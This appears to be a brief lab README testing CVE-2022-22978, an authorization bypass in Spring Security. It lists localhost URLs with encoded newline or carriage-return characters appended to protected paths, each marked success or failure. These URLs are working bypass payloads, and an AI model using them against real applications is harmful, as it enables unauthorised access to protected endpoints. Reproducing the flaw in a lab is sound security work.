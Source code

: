 #  CVE-2022-22978
Spring Security 

Pass Spring Security (成功) <br/>
http://localhost:9090/login%0a <br/>

Pass Spring Security with SayMyName (失敗) <br/>
http://localhost:9090/name%0d <br/>

Bypass Spring Security with Custom RBAC (失敗) <br/>
http://localhost:9090/admin/admin%0d <br/>

Bypass Spring Security with Annotation RBAC (失敗) <br/>
http://localhost:9090/user/user%0a <br/>
